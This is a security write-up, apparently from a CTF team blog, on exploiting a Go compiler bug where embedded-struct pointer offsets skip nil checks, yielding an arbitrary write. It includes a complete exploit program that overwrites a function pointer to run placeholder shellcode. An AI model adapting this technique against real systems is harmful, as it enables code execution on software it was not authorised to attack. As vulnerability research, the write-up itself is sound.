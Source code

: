 ```yaml
---
title: Exploiting a Go Binary
author: awreece
layout: post
permalink: /?p=1087
categories:
  - Report
  - Write-Ups
tags:
  - go
  - golang
---
```

### Introduction

Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using [this issue][1]. geohot and I had a wager over who could get the first remote code execution on [play.golang.org][2]: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org][2] is properly sandboxed, so code execution there does not actually let you do anything. Had this been a more serious bug that could actually be used for anything malicious, we would have reported it and not used it as a CTF problem.

This post is cross posted on my personal blog, original post [there][3].

<!--more-->

### The Bug

Go has support for embedded structs. You can define an embedded struct as follows:

<pre>type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct</pre>

It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.

The [problem][1] comes when you try something slightly trickier:

<pre>type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct</pre>

When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler emits guard code which will cause a segfault if the pointer is nil. However, this code is not emitted when the pointer is the first element of the struct, since it&#8217;s assumed that this will cause a segfault whenever it is used anyway. This assumption is not always valid, as the pointer can be to a large struct such that the offsets of members of the large struct are valid addresses.

### The Vulnerability

We define an enormous struct and use it to offset memory:

<pre>type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct</pre>

Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.

### The Exploit

Once you have an arbitrary write in go, it is *really easy* to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn&#8217;t work on 64bit Go &#8211; apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has *no randomization* at all, this is as simple as running the program twice. Full exploit below:

<pre>package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &#038;shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of a Nested struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &#038;Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &#038;unused)
 fmt.Println("With this: ", &#038;shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &#038;s.payload, " with ", val_to_overwrite)

 *(&#038;s.payload) = val_to_overwrite;
 
 unused();
}}</pre>

### What Now?

Well, clearly this issue should be fixed. I also think it is important for Go to add the standard protections (ASLR, NX) &#8211; I posted [an article][4] earlier about security in Go where I strongly advocated those protections. If this language is to be taken seriously, it should really start worrying about making exploitation difficult.

*Edit:* this article was written a while ago. The the above exploit will not work because [Go 1.1 uses a non-executable heap and stack][5] (the vulnerability still gives an arbitrary read/write, but a little extra work is needed to complete the exploit). Good job go!

Writeup by Alex Reece, see me on [Google+][6] or my [blog][7]. geohot can be found on [his website][8].

 [1]: https://code.google.com/p/go/issues/detail?id=5336
 [2]: http://play.golang.org
 [3]: http://codearcana.com/posts/2013/04/23/exploiting-a-go-binary.html
 [4]: http://codearcana.com/posts/2012/05/06/securing-and-exploiting-go-binaries.html
 [5]: https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0
 [6]: https://plus.google.com/106589059588263736517?rel=author
 [7]: http://codearcana.com
 [8]: http://geohot.com